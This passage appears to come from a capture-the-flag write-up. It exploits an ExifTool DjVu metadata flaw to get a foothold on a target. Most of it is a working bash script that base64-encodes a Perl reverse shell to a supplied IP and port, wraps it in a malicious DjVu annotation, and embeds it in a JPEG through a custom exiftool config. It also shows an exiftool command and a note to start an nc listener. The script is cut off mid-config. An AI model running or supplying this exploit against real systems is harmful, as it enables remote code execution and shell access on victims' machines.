Then update regular image file with `djvu` file content.
```bash 
exiftool -config configfile '-HasselbladExif<=exploit.djvu' sator.jpeg
```

Start `nc` listener and upload image.

![](/assets/img/posts/meta/reverse-shell.png)


### Scripts for foothold automation

For generating backdoor image file.
```bash
#!/bin/bash

IP=$1
PORT=$2
base64_revshell=$(echo "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in($PORT,inet_aton('$IP')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/bash -i');};" | base64 -w0)
payload='(metadata "\c${use MIME::Base64;eval(decode_base64('\'$base64_revshell\''))};")'
echo $payload > payload

bzz payload payload.bzz
rm payload

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
rm payload.bzz

cat >configfile <<EOL
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
```